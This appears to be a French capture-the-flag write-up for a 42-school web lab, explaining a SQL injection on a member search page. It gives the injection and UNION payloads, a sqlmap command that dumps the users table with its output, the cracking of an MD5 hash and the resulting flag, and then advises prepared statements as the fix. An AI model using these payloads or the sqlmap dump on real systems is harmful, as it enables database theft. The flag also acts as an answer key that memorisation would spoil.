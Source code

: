 # Explications

Sur la page member search, il y a une SQL Injection.

On peut afficher tous les users de la table en recherchant : "1 or 1=1"

On peut imaginer une requete forger comme ca derriere :

```sql
SELECT id, firstname, surname FROM users WHERE id = $_GET['id']
```

en passant une UNION on peut donc lui faire afficher ce qu'on veut.
sur la base de donnée MySQL une database contient des informations cruciales, on peut lui faire afficher les autres db / tables / columns.

On peut voir une table qui s'appelle "users" avec comme column : "user_id, first_name, last_name, town, country, planet, Commentaire, countersign"

Je vous epargne toutes les requetes essayé mais la plus interessante fut : "1 or 1=1 UNION SELECT Commentaire, countersign FROM users"

on obtient une consigne qui nous invite a :

```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

5ff9d0165b4f92b14994e5c685cdce28 (md5->plain text) FortyTwo

fortytwo (ascii->sha256) 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

----

# Cas d'usage

Obtenir un dump de la DB, tous pleins d'infos bien utiles :)

----

# Comment l'eviter ?

Il faut a tout pris passer par des requetes SQL dites prepared, les ORM font tres bien le boulot.
(cf: PDO::prepare)

----

# Good to Know

sqlmap un petit tool en python qui a fait ses preuves depuis, peu permettre de rechercher des SQLi, un petit exemple:

sqlmap -u "http://192.168.2.128/?page=member&id=1&Submit=Submit#" --dump -T users


Database: Member_Sql_Injection
Table: users
[4 entries]
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| user_id | town      | planet | country   | last_name | first_name     | Commentaire                                                                   | countersign                      |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+
| 1       | Honolulu  | EARTH  | America   | Obama     | Barack Hussein | Amerca !                                                                      | 2b3366bcfd44f540e630d4dc2b9b06d9 |
| 2       | Berlin    | Earth  | Allemagne | Hitler    | Adolf          | Ich spreche kein Deutsch.                                                     | 60e9032c586fb422e2c16dee6286cf10 |
| 3       | Moscou    | Earth  | Russia    | Staline   | Joseph         | ????? ????????????? ?????????                                                 | e083b24a01c483437bcf4a9eea7c1b4d |
| 5       | 42        | 42     | 42        | GetThe    | Flag           | Decrypt this password -> then lower all the char. Sh256 on it and it's good ! | 5ff9d0165b4f92b14994e5c685cdce28 |
+---------+-----------+--------+-----------+-----------+----------------+-------------------------------------------------------------------------------+----------------------------------+

Plutot puissant non ?

